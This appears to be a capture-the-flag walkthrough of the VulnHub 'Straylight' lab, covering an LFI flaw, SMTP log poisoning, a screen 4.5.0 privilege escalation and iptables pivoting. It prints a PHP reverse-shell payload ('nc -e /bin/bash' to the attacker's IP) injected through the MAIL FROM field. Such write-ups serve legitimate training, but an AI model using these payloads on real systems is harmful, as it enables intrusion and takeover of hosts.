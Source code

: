 ```yaml
---
categories: [VulnHub]
tags: [PrivEsc, LFI, SMTP, iptable, screen 4.5.0, pivoting]
image:
  path: https://benheater.com/content/images/2024/05/vulnhub-logo.jpg
  alt: Starlight Machine 📷
---
```

# Straylight



## Description ⤵️

>💡 A new OSCP style lab involving 2 vulnerable machines, themed after the cyberpunk classic Neuromancer - a must read for any cyber-security enthusiast. This lab makes use of pivoting and post exploitation, which I've found other OSCP prep labs seem to lack. The goal is the get root on both machines. All you need is default Kali Linux.
<br><br>
I'd rate this as Intermediate. No buffer overflows or exploit development - any necessary password cracking can be done with small wordlists. It is much more related to an OSCP box vs a CTF. I've tested it quite a bit, but if you see any issues or need a nudge PM me here.
<br><br>
Virtual Box Lab setup instructions are included in the zip download, but here is a quick brief:
<br><br>
Straylight → simulates a public facing server with 2 NICS. Cap this first, then pivot to the final machine.
<br><br>
[Neuromancer](https://strongshiv8.github.io/posts/Neuromancer/) → is within a non-public network with 1 NIC. Your Kali box should ONLY be on the same virtual network as Straylight.
<br><br>
This works better with VirtualBox rather than VMware
{: .prompt-info }

### Let’s find the IP Address first >>

![Untitled](/Vulnhub-Files/img/Straylight/Untitled.png)

```bash
This machine have 2 Network Adaptor therefore showing to IP but both are same :

I will be using 192.168.56.102
```
{: .nolineno}
{: .nolineno}

## Port Scan Results ➡️

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%201.png)

```bash
Open Ports >
25			SMTP
80			HTTP			
3000		Apache		Hadoop
```
{: .nolineno}
{: .nolineno}

---

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%202.png)

Let’s check different ports too →

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%203.png)

Lets try `admin : admin` default cred and I got In →

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%204.png)

Lets check this option →

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%205.png)

Now access them and found this :

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%206.png)

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%207.png)

After digging deeper into `/turning-bolo/` directory I got this LFI vulnerability that leads me access the log files →

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%208.png)

Now I think it is indicating to us for looking for log files :

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%209.png)

I have also got a port for SMTP for mail purpose so lets us this to execute our payload for reverse shell access or command shell →

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%2010.png)

Now After Accesing the SMTP service I am getting this :>

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%2011.png)

This image is of source code of the previous picture .

Now it’s time to execute our reverse shell code →

```
{: .nolineno}
{: .nolineno}
Command : MAIL FROM:<?php system('nc -e /bin/bash 192.168.56.103 4444'); ?>
```
{: .nolineno}
{: .nolineno}

In response to that in netcat I recevied this →

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%2012.png)

⤵️

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%2013.png)

Now when I got a Local Privilege Escalation so lets find for SUIDs and GUIDs files →

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%2014.png)

Lets search for an exploit for `screen 4.5.0` as it is a common exploit →

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%2015.png)

Now I transfered this exploit through wget and simply executed it And I got this :

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%2016.png)

Now lets find the flag →

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%2017.png)

also I got this →

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%2018.png)

---

This is not an end !

I also got an another machine connect with this machine so lets use pivoting method to breach it too →

Now ⤵️

It time to make tunnel from straylight to Neuromancer and also to the Attacker machine So :>

```
{: .nolineno}
{: .nolineno}
Command : iptables -t nat -A POSTROUTING -o enp0s3 -j SNAT --to-source 192.168.56.102
```
{: .nolineno}
{: .nolineno}

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%2019.png)

```
{: .nolineno}
{: .nolineno}
command : iptables -t nat -A PREROUTING -i enp0s3 -p tcp --dport 3333 -j DNAT --to-destination 192.158.56.103
```
{: .nolineno}
{: .nolineno}

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%2020.png)

Now I have a connection between these 2 machines >

Now lets go to `Neuromancer` Machine → [Neuromancer](https://strongshiv8.github.io/posts/Neuromancer/).



> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }